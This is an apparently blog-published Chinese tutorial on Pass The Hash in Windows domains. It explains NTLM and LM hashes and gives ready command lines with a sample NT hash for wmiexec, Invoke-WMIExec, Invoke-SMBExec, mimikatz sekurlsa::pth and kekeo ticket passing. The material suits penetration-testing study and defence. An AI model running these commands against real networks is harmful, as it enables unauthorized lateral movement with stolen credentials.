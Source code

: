 ```yaml
---
layout: post
title: 域渗透——Pass The Hash的实现
---
```



## 0x00 前言
---

在之前的文章《域渗透——Pass The Hash & Pass The Key》曾介绍过kb2871997对Pass The Hash的影响。本文将站在另一个角度，介绍Pass The Hash的相关实现

## 0x01 简介
---

本文将要介绍以下内容：

- Pass The Hash的原理
- 常用工具
- mimikatz中的Pass The Hash
- mimikatz中的Pass The Ticket

## 0x02 Pass The Hash的原理
---

可参考Wikipedia的介绍，地址如下：

https://en.wikipedia.org/wiki/Pass_the_hash

提取出关键信息：

- 在Windows系统中，通常会使用NTLM身份认证
- NTLM认证不使用明文口令，而是使用口令加密后的hash值，hash值由系统API生成(例如LsaLogonUser)
- hash分为LM hash和NT hash，如果密码长度大于15，那么无法生成LM hash。从Windows Vista和Windows Server 2008开始，微软默认禁用LM hash
- 如果攻击者获得了hash，就能够在身份验证的时候模拟该用户(即跳过调用API生成hash的过程)

**注：**

mimikatz支持导出内存中用户的LM hash，但前提是Windows系统支持LM hash

Windows Server 2008启用LM hash的方法：

`gpedit.msc`-`计算机配置`-`Windows 设置`-`安全设置`-`本地策略`-`安全选项`

找到`网络安全︰ 不要在下次更改密码存储 LAN 管理器的哈希值`，选择`已禁用`

系统下一次更改密码后，就能够导出LM hash


## 0x03 常用工具
---

当我们获得某个用户的口令hash，并且条件限定我们不去破解明文口令，实现Pass The Hash都有哪些工具呢？

### 1、Kali下的工具

#### (1) meterpreter

```
use exploit/windows/smb/psexec_psh
```

#### (2) 工具集

位于`密码攻击`-`Passing the Hash`下，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-12-8/1215.png)

包含多种利用工具

### 2、Windows系统下的工具

#### (1) python

**wmiexec：**

参考地址：

https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

exe版本下载地址：

https://github.com/maaaaz/impacket-examples-windows

**注：**

wmiexec.py的注释中提示"Main advantage here is it runs under the user (has to be Admin) account"，经实际测试普通用户权限即可 

参数实例：

```
wmiexec -hashes 00000000000000000000000000000000:7ECFFFF0C3548187607A14BAD0F88BB1 TEST/test1@192.168.1.1 "whoami"
```

wmiexec.py的hash参数格式为`LMHASH:NTHASH`，由于该Hash来自于Server 2008，系统默认不支持LM hash，所以LM hash可以设定为任意值

#### (2) powershell

参考地址：

https://github.com/Kevin-Robertson/Invoke-TheHash/

支持多种方式

**Invoke-WMIExec：**

参数实例：

```
Invoke-WMIExec -Target 192.168.1.1 -Domain test.local -Username test1 -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose
```

类似wmiexec.py

**Invoke-SMBExec：**

支持SMB1, SMB2 (2.1), and SMB signing

参数实例：

```
Invoke-SMBExec -Target 192.168.0.2 -Domain test.local -Username test1 -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose
```

通过在目标主机创建服务执行命令，所以权限为system

**Invoke-SMBClient：**

支持SMB1, SMB2 (2.1), and SMB signing

如果只有SMB文件共享的权限，没有远程执行权限，可以使用该脚本

支持的功能包括列举目录、上传文件、下载文件、删除文件(具体权限取决于该口令hash的权限)


#### (3) mimikatz 

**Pass-The-Hash：**

实际上为Overpass-the-hash

参数实例：

```
privilege：：debug
sekurlsa::pth /user:test1 /domain:test.local /ntlm:7ECFFFF0C3548187607A14BAD0F88BB1
```

**注：**

mimikatz的pth功能需要本地管理员权限，这是由它的实现机制决定的，需要先获得高权限进程lsass.exe的信息

对于8.1/2012r2，安装补丁kb2871997的Win 7/2008r2/8/2012，可以使用AES keys代替NT hash

**Pass-The-Ticket：**

考虑到mimikatz的pth功能需要本地管理员权限，所以mimikatz也提供了不需要管理员权限的解决方法Pass-The-Ticket

Pass-The-Ticket需要用到gentilkiwi开源的另一款工具kekeo，下载地址：

https://github.com/gentilkiwi/kekeo

参数实例：

```
kekeo "tgt::ask /user:test1 /domain:test.local /ntlm:7ECFFFF0C3548187607A14BAD0F88BB1"
```

执行后生成票据`TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi`

接下来导入票据：

```
kekeo "kerberos::ptt TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"
```


## 0x04 小结
---

本文列举了多种实现Pass The Hash的工具，欢迎补充



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)



